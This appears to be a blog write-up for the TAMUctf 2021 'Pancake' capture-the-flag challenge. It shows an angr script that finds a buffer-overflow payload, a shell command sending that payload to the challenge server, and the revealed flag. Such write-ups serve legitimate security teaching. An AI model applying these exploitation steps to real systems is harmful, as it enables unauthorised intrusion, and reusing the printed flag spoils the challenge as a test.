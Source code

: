 ```yaml
---
title: "TAMUctf 2021 Pancake Solution"
slug: "pancake-writeup"
date: "2021-04-26 11:39:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[Pancake](https://ctftime.org/task/15791) - 100 points

>    Attack this binary to get the flag!
>    [pancake](https://tamuctf.com/static-files/pancake)
>    `openssl s_client -connect tamuctf.com:443 -servername pancake -quiet`

Pancake is an easy exploitation challenge I think. I decided to use [angr](https://angr.io/) and was pleasantly surprised that it solved it quite rapidly. It uses the standard format for angr solutions that I've been using for years. I don't know what the exploit payload does. It's not clear at all to me what is going on except that the exploit must have been pretty straightforward. Please look at [angr's documentation](https://github.com/angr/angr-doc/) if you are as impressed as I was with this result.

```python
import angr

p = angr.Project('pancake')

sm = p.factory.simulation_manager()

sm.explore(find=lambda st:(st.posix.dumps(1) != b'' and not st.posix.dumps(1).startswith(b'Try again, you got')))

# stdout is proof of our solution.
sm.found[0].posix.dumps(1)
b'flag: \x80@ \x01\x10\x02\x08\x02\x04\x02   \x10\x80\x01\x02\x08\x10 \x02\x08@\x01\x01 \x01\x02\x10\x08\x80\x01\x10\x10\x02\x10\x08 \x80\x10\x10\x04\x04\x80@\x01\x04\x08\x80\x01\x80\x01 \x80 \x01\x10\x80@\n'

# stdin is the payload that causes the solution to occur.
sm.found[0].posix.dumps(0)
b'\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf4\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\x88f@\x08\xf5\xf5\xf5\xf5\xf5\xf5\x00'

exit(1)

```

```sh
 (echo -e '\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf4\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\x88f@\x08\xf5\xf5\xf5\xf5\xf5\xf5'; cat) | openssl s_client -connect tamuctf.com:443 -servername pancake -quiet
depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
flag: gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}
```

The flag is `gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}`

